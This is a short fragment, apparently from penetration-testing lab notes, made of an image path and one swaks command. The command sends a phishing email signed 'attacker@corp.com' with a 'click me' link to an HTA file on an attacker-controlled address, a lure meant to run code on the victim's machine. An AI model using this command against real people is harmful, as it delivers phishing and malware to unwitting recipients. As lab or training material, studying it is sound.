 swaks --body 'click me http://192.168.45.240/file.hta' --add-header "Really: 1.0" --add-header "Content-Type: text/html" --header "Subject: Important" -t Will@tricky.com -f attacker@corp.com --server 192.168.169.159
